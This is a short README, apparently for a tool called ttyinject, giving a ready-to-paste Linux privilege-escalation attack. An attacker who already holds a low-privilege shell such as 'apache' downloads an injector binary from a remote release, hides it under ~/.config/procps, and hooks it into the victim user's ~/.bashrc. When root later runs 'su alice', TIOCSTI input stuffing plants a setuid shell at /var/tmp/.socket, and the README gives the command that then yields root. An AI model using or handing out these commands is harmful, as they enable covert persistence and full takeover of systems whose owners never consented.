 # Alice gets ROOT when ROOT does 'su alice'.  
(The oldest trick in the book - TTY / TIOCSTI stuffing)

Useful when all other exploits fail.

Typically used when the attacker has a shell as user 'apache', 'php' or 'postgresql'. Alice is used as an example only.

## Deploy
Cut & paste the following into Alice's shell:
```shell
mkdir -p ~/.config/procps 2>/dev/null
curl -o ~/.config/procps/reset -fsSL "https://github.com/hackerschoice/ttyinject/releases/download/v1.1/ttyinject-linux-$(uname -m)" \
&& chmod 755 ~/.config/procps/reset \
&& if grep -qFm1 'procps/reset' ~/.bashrc; then echo >&2 "Already installed in ~/.bashrc"; else \
echo "$(head -n1 ~/.bashrc)"$'\n'"~/.config/procps/reset 2>/dev/null"$'\n'"$(tail -n +2 ~/.bashrc)" >~/.bashrc; fi
```

Wait for ROOT to execute 'su alice' and thereafter gain root with:
```
/var/tmp/.socket -p -c "exec python3 -c \"import os;os.setuid(0);os.setgid(0);os.execl('/bin/bash', '-bash')\""
```
---

## Why this works:  
TL;DR:
* `su` does not allocate a new TTY when switching to a non-privileged user. 
* Uses TIOCSTI to inject input into the root's TTY that copies `/bin/sh` to `/var/tmp/.socket` and +s the same.
* Executes only once (from `~/.bashrc`). Deletes itself afterwards.

Read the source for more details.
